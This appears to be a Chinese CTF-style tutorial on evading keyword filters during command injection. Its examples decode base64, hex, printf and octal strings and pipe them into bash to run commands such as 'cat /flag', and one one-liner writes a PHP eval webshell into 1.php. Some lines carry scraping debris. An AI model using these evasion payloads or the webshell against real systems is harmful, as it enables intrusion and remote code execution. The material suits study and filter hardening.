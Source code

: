 #### 用编码来绕过关键字过滤

这种绕过针对的是系统过滤敏感字符的时候，比如他过滤了cat命令、flag字符，那么就可以用下面方式将cat等先进行编码后再进行解码运行。

##### URL编码绕过

关于**$_SERVER['QUERY_STRING']**，他验证的时候是不会进行url解码的，但是在GET的时候则会进行url解码，所以我们只需要将关 键词进行url编码就能绕过。

##### Base64编码绕过

linux base64讲解：

```powershell
用法：base64 [选项]… [文件]  使用 Base64 编码/解码文件或标准输入/输出。
-d, --decode 解码数据
-w, --wrap=字符数 在指定的字符数后自动换行(默认为76)，0 为禁用自动换行实例：
[root@localhost ~]# echo test|base64             加密
dGVzdAo=
[root@localhost ~]# echo dGVzdAo= |base64 -d     解密 
test
```

绕过利用：**（"引号不是必须）**

```powershell
echo MTIzCg==|base64 -d               其将会打印123         //MTIzCg==是123的base64编码
echo "Y2F0IC9mbGFn"|base64 -d|bash    将执行了cat /flag        //Y2F0IC9mbGFn是cat /flag的base64编码
echo "bHM="|base64 -d|sh              将执行lsxxxxxxxxxx Hex编码绕过
```

道理与上面相同

##### 利用linux xxd命令。

xxd 命令可以将指定文件或标准输入以十六进制转储，也可以把十六进制转储转换成原来的二进制形式。

-r参数：逆向转换。将16进制字符串表示转为实际的数

echo "636174202f666c6167"|xxd -r -p|bash     将执行cat /flag

##### 也可以用 $() 的形式直接内联执行：

```shell
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")         执行cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0       执行cat /flag
```

##### Oct编码绕过：

**$(****printf "\154\163"****)**       执行ls

可以通过这样来写webshell，内容为

```shell
// <?php @eval($_POST['c']);?>: ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php   
// 需要有写权限
```

$() 可以像反引号一样用于内联执行，后面会说到，这里注意一下。用偶读拼接绕过关键字过滤
